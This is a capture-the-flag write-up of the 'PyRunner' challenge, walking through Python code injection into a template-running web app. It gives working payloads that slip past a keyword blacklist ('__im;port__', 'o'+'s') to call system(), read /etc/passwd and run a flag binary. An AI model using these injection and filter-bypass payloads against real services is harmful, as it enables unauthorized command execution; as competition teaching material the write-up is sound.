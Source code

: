# STACK The Flags CTF Writeup

**STACK The Flags** (*Category 2: University, Polytechnics*)

Link: https://ctf.hackthebox.com/event/747

Challenge: PyRunner

![](./images/Pasted%20image%2020221203160910.png)

---

## Target

The target is `157.245.52.169:32757`, which seems to serve a simple web app that executes Python templates:

![](./images/Pasted%20image%2020221203010534.png)

Interacting with the dropdown displays another template, _"Webserver Template Duplicate"_, which (when selected) renders an **Arguments** section below the (disabled/non-editable) template source, allowing us to create new templates with a `title`, `host` and `port`:

![](./images/Screenshot%202022-12-03%20at%201.10.02%20AM.png)

Ok, so this challenge seems like it will deal with **command injection**, specifically—injecting a malicious command into one of those input fields.

### Files

The challenge also provided the source code for the webapp:

![](./images/Pasted%20image%2020221203060133.png)

Some files of interest:

![](./images/Pasted%20image%2020221203012946.png)
![](./images/Pasted%20image%2020221203013012.png)

So this is _definitely_ a command injection / arbitrary command execution challenge. But first, I have to figure out which of the 3 input fields is vulnerable to injection.

When a newly-created template is run, the server calls the `run_template` function, which extracts the arguments passed through the 3 input fields and passes them through a rudimentary word filter which replacing certain blacklisted plaintext strings with empty strings, `""`.

```py
contents.replace(f"<{argument}>", textfilter(data["arguments"][argument]))
```

```py
# textfilter function pretty much just replaces instances
# of the following strings with an empty string, ""
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
# system isn't blacklisted...
```

I find that `title` is the only passed argument that gets printed out in the server-hosted `template.py` file (line 11), so this will be my target input to inject commands into.

```py
print("Webserver: <title>")
#                  ^^^^^
```

So the general format of the injection will look something like `test>", {injection}) #` , which will turn the line above into:

```py
print("Webserver: <test>", {injection}) #")
```

### Command Injection

First I tried a simple injection just to check if I can get the server to perform some sort of calculation, to confirm that the injection was successful:

`test>", 1+2) #`

![](./images/Pasted%20image%2020221203015436.png)

_Niiice_, arbitrary command execution. Now to figure out how to spit out stuff that is actually useful.

---

`test>", system("ls")) #`

Since `system` isn't blocked, I can theoretically use it for command execution, however it isn't imported in `template.py`, so (predictably) this injection fails for this exact reason:

![](./images/Pasted%20image%2020221203014700.png)

Maybe I can import it inline? Going for a `system` call seems like the obvious approach, however, `;` are filtered out, as well as `import`, so there's some thinking to be done before I can use it.

---

After some time studying python command injection, I found that imports can be done via many alternative syntaxes, specifically:

- `__import__("os").system("ls")`
- `imp.os.system("ls")`

These might come in handy, however they still fail since either `import` or `os` is still present in the command string:

`test>", __import__('os').system('ls -la')) #>")`

![](./images/Pasted%20image%2020221203023737.png)

---

Time to switch gears, let's see what I can do with other commands which aren't blacklisted.

`test>", open("/etc/passwd").read()) #>")`

![](./images/Pasted%20image%2020221203030819.png)

_Very interesting_. Ok, so open seems promising, but I'm not sure if it's necessarily useful since I don't know
the filename or location of the flag... (Hindsight: turns out I _did_ know via included `Dockerfile`, but I ended up
going with a different approach.)

---

### What about the filenames?

Every created template is saved with a randomly generated filename:

![](./images/Pasted%20image%2020221203032208.png)

and the server sends back a response containing a computed output by a **juicy** `subprocess.run()` call that can run _anything_ in the `/scripts` directory…

![](./images/Pasted%20image%2020221203032329.png)

![](./images/Pasted%20image%2020221203032250.png)

Maybe I can write a malicious script to the location of an existing template?

But how do I get around the random `filename` generation? On second thought, this doesn't seem like the right approach (hindsight: it wasn't).

---

### Back to inline import approach

After messing around with some more ideas on how to bypass the blacklist, I discovered that I can get
the string `"import"` through the filter by sticking a `;` in it, however it didn't work for `"os"`—which I discovered
I can bypass by simply concatenating `“o” + “s”`:

`test>", __im;port__('o'+'s').system('ls -la')) #>")`

![](./images/Screenshot%202022-12-03%20at%204.17.54%20AM.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted (filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd .. && ls -la')) #>")`

![](./images/Pasted%20image%2020221203043442.png)

Finally, I found a file named `readflag`, however I can't seem to `cat` it out, nor can I `file readflag` its contents to even identify what it is. So using `stat`, I get some more information about this `cat`-immune file:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag')) #>")`

![](./images/Pasted%20image%2020221203045642.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted
(filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && od -c -tx1 readflag')) #>")`

![](./images/Pasted%20image%2020221203050617.png)

Finally, I found a `readflag` file, which (given the included `Dockerfile`) we know is an executable binary.

![](./images/Pasted%20image%2020221204195414.png)

### Final payload:

```
test>",__im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && ./readflag')) #
```

![](./images/Pasted%20image%2020221204210105.png)

### 🏴‍☠️ Flag:

```
STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}
```
